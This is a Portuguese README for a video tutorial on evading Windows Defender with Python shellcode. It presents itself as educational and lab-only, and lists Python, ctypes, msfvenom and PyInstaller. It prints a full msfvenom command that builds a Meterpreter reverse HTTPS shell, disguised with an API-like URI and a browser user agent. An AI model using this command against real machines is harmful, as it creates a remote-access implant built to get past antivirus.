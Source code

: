 #  Bypass do Windows Defender com Shellcode em Python  

Este repositório acompanha o vídeo tutorial publicado no meu canal, com o objetivo **exclusivamente educacional** e de **conscientização em segurança cibernética**.  

Mostro como técnicas ofensivas podem ser usadas para evadir defesas e, principalmente, como profissionais de segurança podem **entender, detectar e mitigar** esses ataques.  

⚠️ **Aviso importante**  
Este conteúdo tem caráter acadêmico e deve ser usado apenas em **laboratórios controlados**, para aprendizado em segurança ofensiva e defesa cibernética.  
Não utilize em ambientes de produção.  

---

##  Ferramentas apresentadas  

- Python  
- ctypes  
- msfvenom (Metasploit)  
- PyInstaller  

---

##  Comando do Payload
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.0.245 LPORT=666 LURI=/api/v1/data/ HTTPUSERAGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.3240.76" -f python
```
---

##  Assista ao vídeo  

👉 [Link para o vídeo no YouTube](https://youtube.com) *(adicione aqui o link do seu vídeo)*  

---

##  Objetivo  

O foco deste conteúdo é ajudar profissionais e estudantes de cibersegurança a compreender:  

- O funcionamento de técnicas de evasão  
- As limitações de antivírus tradicionais  
- Como reforçar camadas de defesa  
